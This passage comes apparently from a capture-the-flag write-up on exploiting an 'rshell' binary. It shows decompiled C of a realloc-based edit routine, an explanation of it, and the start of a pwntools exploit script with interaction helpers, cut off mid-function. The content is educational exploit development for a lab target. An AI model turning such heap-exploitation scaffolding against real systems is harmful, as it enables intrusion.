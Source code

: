 ```
      read_size = 0;
      printf("size: ");
      __isoc99_scanf("%u",&read_size);
      getchar();
      if (read_size < 0x71) {
        new_buf = realloc((void *)(&item_array)[(long)i * 0x1a],(ulong)read_size);
        if (new_buf == (void *)0x0) {
          puts("Error");
        }
        else {
          *(void **)(&item_array + (long)i * 0x1a) = new_buf;
          printf("content: ");
          read(0,(void *)(&item_array)[(long)i * 0x1a],(ulong)read_size);
        }
      }
      else {
        puts("Memory Error!");
      }
      goto LAB_001019a8;
    }
    i = i + 1;
  } while( true );
}

```

This loop first checks if `i` is greater than 1, which indicates that it’s looped through both configs and not found a matching file to edit, in which case it prints an error message and exits. It then checks the current item to see if the name matches the input, and if so, it prompts for a new size (ensuring that it’s less than 0x71), and uses `realloc` on the existing buffer. Then it reads in and stores the content, and completes.

### Configuration

#### Exploit Script

To interact with this binary, I’ll use a handful of tools. First, I’ll start a Python exploit script. To start, it will just have methods to interact with the various commands in `rshell` (this script presumes that my ssh public key is in the `authorized_keys` file for chromeuser):

```

#!/usr/bin/env python3

import pdb
from pwn import *

prompt = '$ '

def ls():
    p.sendline('ls')
    res = p.recvuntil(prompt)
    for line in res.split(b'\n')[:-1]:
        print(line.decode())

def add(name, size, content='x'):
    p.sendline(f'add {name}')
    res = p.recvuntil(('size: ', prompt))
    if res.endswith(prompt.encode()): 
        pdb.set_trace()
        return
    p.sendline(f'{size}')
    if size > 0:
        p.recvuntil('content: ')
```